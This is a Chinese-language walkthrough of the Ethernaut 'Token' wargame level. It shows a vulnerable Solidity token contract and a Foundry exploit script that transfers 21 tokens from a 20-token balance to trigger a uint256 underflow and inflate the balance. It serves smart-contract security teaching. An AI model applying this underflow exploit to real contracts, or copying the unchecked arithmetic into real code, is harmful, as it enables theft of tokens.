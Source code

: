 # Level 5 - Token

## 題目
[Token](https://ethernaut.openzeppelin.com/level/0x478f3476358Eb166Cb7adE4666d04fbdDB56C407)

### 通關條件
你一開始會被給 20 個代幣。如果你找到方法增加你手中代幣的數量，你就可以通過這一關，當然代幣數量越多越好。
### 提示
- 什麽是 odometer?
### 合約內容
```solidity=
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    mapping(address => uint256) balances;
    uint256 public totalSupply;

    constructor(uint256 _initialSupply) public {
        balances[msg.sender] = totalSupply = _initialSupply;
    }

    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint256 balance) {
        return balances[_owner];
    }
}
```
## 解題
odometer 是指汽車的里程表，達到最大值後再+1便會歸零，這就是常見的 overflow 的問題。  
這題要考的就是 overflow， overflow 簡單來說就是數字的儲存終有極限，當超過儲存極限的時候，沒有相對應的措施；就會導致程式出錯。  
所以了解每個變數型態可以表示的範圍是很重要的！！！  


---
這題的目標是增加自己的代幣（`balances[msg.sender]`）
從合約中可以找到變更自己代幣量的只有 12 行的 `transfer(address _to, uint256 _value)`，它會將你手中的代幣減少，並且增加在你要轉去的地址中
```solidity=12
    function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
```
我們只要透過這個 function，透過我們輸入的參數造成 overflow，就可以讓手中的代幣不減反增。題目一開始說我們手中的代幣有 20 個，儲存代幣的變數 `balances` 的型態是 `uint256` 
```solidity=5
    mapping(address => uint256) balances;
```
`uint256` 的範圍是 $0$ 到 $2^{256}-1$，也就是說我們只要轉出 21 個代幣，就會讓我們的代幣持有量變成 $2^{256}-1$，達到代幣增加的效果。攻擊合約如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/05_Token.sol";

contract ExploitScript is Script {
    Token level05 = Token(your_challenge_address);

    function run() external {
        vm.startBroadcast();

        level05.transfer(your_challenge_address, 21);

        vm.stopBroadcast();
    }
}
```
Overflow 是寫程式時常會需要去考慮到的問題。雖然現在很多框架都會自動幫忙處理，但還是要了解這些觀念，避免程式發生預期外的錯誤，關於 overflow 也可以參考：
- [[中文] WTF Solidity 合约安全: S05. 整型溢出](https://github.com/AmazingAng/WTF-Solidity/tree/main/S05_Overflow)
- [[中文] 溢位攻擊 | 觀點解析](https://medium.com/@communitybca/%E6%BA%A2%E4%BD%8D%E6%94%BB%E6%93%8A-%E8%A7%80%E9%BB%9E%E8%A7%A3%E6%9E%90-b32544747646)
- [[EN] Integer overflow and underflow in solidity](https://metaschool.so/articles/integer-overflow-and-underflow-in-solidity/)